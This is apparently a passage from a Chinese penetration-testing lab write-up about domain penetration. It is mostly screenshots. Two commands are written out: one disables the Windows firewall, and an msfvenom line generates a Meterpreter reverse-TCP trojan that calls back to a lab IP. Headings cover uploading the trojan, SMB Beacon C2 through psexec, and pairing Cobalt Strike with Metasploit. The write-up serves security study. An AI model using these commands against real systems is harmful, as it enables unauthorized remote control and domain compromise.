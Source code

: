 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607105500444.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

关闭防火墙在连接

```bash
netsh firewall set opmode disable
```

添加用户

![在这里插入图片描述](https://img-blog.csdnimg.cn/2021060711135952.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607111926210.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

#### msf生成木马

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.60.129 LPORT=7777 -f exe > shell.exe
```

本地监听
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607153209880.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

上传



![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607153156324.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)


![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607153322331.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)



### 域渗透

#### SMB Beacon C2命令执行

创建一个监听器

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607132432593.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)


使用 psexec 登录

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607133637593.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

获得域控 OWA beacon


![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607133804630.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)





#### CS/MSF联动

msf监听

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607143900395.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)
